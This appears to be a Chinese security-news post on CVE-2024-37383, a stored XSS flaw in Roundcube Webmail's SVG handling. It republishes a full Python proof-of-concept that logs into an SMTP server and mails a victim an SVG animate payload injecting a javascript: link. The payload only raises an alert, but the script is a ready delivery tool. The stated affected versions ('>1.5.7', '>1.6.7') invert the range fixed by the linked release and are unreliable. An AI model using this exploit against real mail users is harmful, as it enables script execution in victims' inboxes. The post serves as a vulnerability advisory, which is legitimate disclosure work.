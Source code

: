 #  CVE-2024-37383｜Roundcube Webmail存储型XSS漏洞（POC）   
alicy  信安百科   2024-11-02 17:48  
  
****  
  
**0x00 前言**  
  
****  
Roundcube Webmail是一个开源的基于web的电子邮件客户端，旨在提供用户友好的界面和强大的功能，使用户能够通过web浏览器方便地访问和管理他们的电子邮件。  
  
  
Roundcube支持标准的邮件协议（如IMAP和SMTP），并提供了许多常见的邮件功能，如收发邮件、管理联系人、创建日历事件等。其界面简洁直观，易于使用，同时还支持插件扩展，用户可以根据自己的需求定制功能。  
  
  
Roundcube Webmail被广泛应用于个人用户、企业和组织，为他们提供了一个方便、安全的电子邮件管理解决方案。  
  
  
  
**0x01 漏洞描述**  
  
  
在Roundcube Webmail中发现了CVE-2024-37383漏洞。这是一个存储的XSS漏洞，允许攻击者在用户页面上执行JavaScript代码。  
  
  
错误出现在处理电子邮件正文标记中的SVG元素的代码中。在显示电子邮件之前，Roundcube会处理某些标签的内容及其属性。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2024-37383  
  
  
  
**0x03 影响版本**  
  
  
Roundcube Webmail >1.5.7  
  
Roundcube Webmail >1.6.7  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/bartfroklage/CVE-2024-37383-POC  
  
```
import smtplib
import argparse
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="CVE-2024-37383 Proof Of Concept")
    parser.add_argument("-e", "--sender_email", required=True, help="Sender's email address")
    parser.add_argument("-p", "--sender_password", required=True, help="Sender's email password")
    parser.add_argument("-t", "--recipient_email", required=True, help="Recipient's email address")
    parser.add_argument("-sh", "--smtp_host", default="smtp.gmail.com", help="SMTP host address")
    parser.add_argument("-sp", "--smtp_port", default=587, help="SMTP port number")

    args = parser.parse_args()

    msg = MIMEMultipart('alternative')
    msg["From"] = args.sender_email
    msg["To"] = args.recipient_email
    msg["Subject"] = "CVE-2024-37383 Proof Of Concept"

    text = "Please use HTML view to see this email."
    html = """\
    <html>
    <head></head>
    <body>
        <svg>
            <animate attributeName="href " values="javascript:alert(\'You are powned.\')" href="#link" />
            </animate>
            <a id="link">
                <text x=20 y=20>Click me</text>
            </a>
        </svg>
    </body>
    </html>
    """
    msg.attach(MIMEText(text, 'plain'))
    msg.attach(MIMEText(html, 'html'))

    try:
        server = smtplib.SMTP(args.smtp_host, args.smtp_port)
        server.set_debuglevel(True)
        server.starttls()
        server.login(args.sender_email, args.sender_password)
        server.sendmail(args.sender_email, args.recipient_email, msg.as_string())
        server.quit()
        print("Email sent successfully.")
    except Exception as e:
        print("An error occurred:", str(e))
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urwFbJSQOvp8LYTFoem4VE3rxfnWpjibAPWa4fZY42atgLjr1dJG0KBMQSTOTdnb2Y8wLYqnfWxqjA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://github.com/roundcube/roundcubemail/commit/43aaaa528646877789ec028d87924ba1accf5242  
  
  
https://github.com/roundcube/roundcubemail/releases/tag/1.5.7  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-42009｜Roundcube Webmail跨站脚本漏洞](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485549&idx=2&sn=bd0fed193fad260b6fb53993cc21a43c&chksm=cea961b4f9dee8a2403a5e78f84a204c10ac46ff846355e6b66ab4215306df91c43f6c022cc8&scene=21#wechat_redirect)  
  
  
  
[N/A｜Roundcube Webmail存在远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485474&idx=2&sn=c87807bbe8f26ab6c0e05336ace5d5f4&chksm=cea961fbf9dee8edd252018b4b32f3446653c24c74a2a2b33c5a3bafe8295266ca3cfab5d998&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-9264｜Grafana SQL表达式允许远程代码执行（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485671&idx=2&sn=3c50f92d11faad65195774409be07b3b&chksm=cea9613ef9dee828fe54dcf107742dd30993caea07e0477c78d244ca86e048f76a75112725c5&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
